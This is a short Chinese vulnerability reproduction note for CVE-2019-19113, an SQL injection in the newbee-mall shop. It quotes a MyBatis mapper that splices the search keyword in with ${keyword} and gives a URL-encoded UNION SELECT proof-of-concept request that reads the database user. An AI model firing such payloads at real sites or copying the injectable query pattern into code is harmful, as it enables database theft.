 （CVE-2019-19113）新蜂商城sql注入
=================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

\\src\\main\\resources\\mapper\\NewBeeMallGoodsMapper.xml

      <select id="findNewBeeMallGoodsListBySearch" parameterType="Map" resultMap="BaseResultMap">
            select
            <include refid="Base_Column_List"/>
            from tb_newbee_mall_goods_info
            <where>
                <if test="keyword!=null and keyword!=''">
                    and (goods_name like CONCAT('%','${keyword}','%') or goods_intro like CONCAT('%','${keyword}','%'))
                </if>
                <if test="goodsCategoryId!=null and goodsCategoryId!=''">
                    and goods_category_id = #{goodsCategoryId}
                </if>
            </where>
            <if test="orderBy!=null and orderBy!=''">
                <choose>
                    <when test="orderBy == 'new'">
                        <!-- 按照发布时间倒序排列 -->
                        order by goods_id desc
                    </when>
                    <when test="orderBy == 'price'">
                        <!-- 按照售价从小到大排列 -->
                        order by selling_price asc
                    </when>
                    <otherwise>
                        <!-- 默认按照库存数量从大到小排列 -->
                        order by stock_num desc
                    </otherwise>
                </choose>
            </if>
            <if test="start!=null and limit!=null">
                limit #{start},#{limit}
            </if>
        </select>

如果使用\$ {keyword}拼接sql语句，则存在SQL注入的风险

poc：

    http://0-sec.org:28089/search?goodsCategoryId=&keyword=%5C%25%27%29%29%20%55%4E%49%4F%4E%20%41%4C%4C%20%53%45%4C%45%43%54%20%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%43%4F%4E%43%41%54%28%30%78%37%31%37%36%36%32%37%38%37%31%2C%49%46%4E%55%4C%4C%28%43%41%53%54%28%43%55%52%52%45%4E%54%5F%55%53%45%52%28%29%20%41%53%20%43%48%41%52%29%2C%30%78%32%30%29%2C%30%78%37%31%36%32%37%38%36%62%37%31%29%2C%4E%55%4C%4C%2C%4E%55%4C%4C%23&orderBy=defaul
